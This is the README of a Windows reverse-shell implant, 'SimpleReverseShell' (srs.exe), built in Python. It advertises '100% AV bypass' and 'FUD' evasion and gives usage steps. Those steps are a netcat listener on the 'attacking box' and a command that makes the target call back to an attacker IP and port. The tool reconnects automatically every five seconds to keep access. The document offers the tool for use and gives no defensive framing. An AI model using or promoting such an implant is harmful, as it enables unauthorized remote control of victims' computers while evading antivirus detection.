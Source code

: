 # SimpleReverseShell
py based rev cmd shell w/bare minimal dependencies x86_x64

Rumored to be Miley's favorite command shell.

![alt tag](http://i.imgur.com/sqov7iX.jpg)

100% AV bypass

![alt tag](http://i.imgur.com/GlkEB0q.png)

Usage:
Start a generic listener on your attacking box to catch the incoming connection. 
#nc -lvp 58931

![alt tag](http://i.imgur.com/j2aG99m.png)

Upload srs.exe to your Windows target (x86 or x64) and specifiy a remote host and remote port 
#srs.exe 192.168.0.5 58931

![alt tag](http://i.imgur.com/0KDbncP.png)

The listener receives the shell and you may begin executing commands. #hacktheplanet

![alt tag](http://i.imgur.com/NVQqBOb.png)

Easy as pie. The core feature of the shell is it's resilience to CTRL+C sighups.
Additionally, the implant will re-iniatiate connection every 5 seconds if the socket dies. Ncat is a fantastic tool, but I find that the best software does one thing and does that one thing well. Ergo srs. 

Simple. Portable. Resilient. FUD.



